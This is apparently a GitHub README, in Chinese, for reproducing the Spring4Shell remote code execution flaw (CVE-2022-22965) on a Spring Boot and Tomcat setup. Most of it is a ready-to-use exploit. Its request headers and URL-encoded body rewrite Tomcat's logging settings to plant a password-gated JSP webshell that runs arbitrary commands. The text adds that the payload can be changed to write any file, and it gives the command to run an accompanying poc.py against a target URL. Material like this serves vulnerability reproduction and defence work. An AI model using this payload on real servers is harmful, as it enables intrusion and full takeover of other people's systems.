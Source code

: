 # Spring RCE CVE-2022-22965

### 漏洞环境

环境信息
* springboot
* jdk11
* tomcat9.0.30

### payload
请求头配置
```shell
"suffix": "%>//",
"c1": "Runtime",
"c2": "<%",
"DNT": "1",
"Content-Type": "application/x-www-form-urlencoded",
```
请求体数据
```shell
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=myshell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```

发送上述内容，即可在目标系统上成功写入webshell ，一般会在 `webapps\ROOT\myshell.jsp` 路径下

如果路径可控，通过变换payload 你可以写入任意你需要的文件  
主要是通过修改tomcat 日志记录格式，以日志的形式写入shell

### poc 使用
方便复现方式，直接使用下面的[poc](./poc/poc.py) 即可
```shell
python3 poc.py http://test.com/hello
```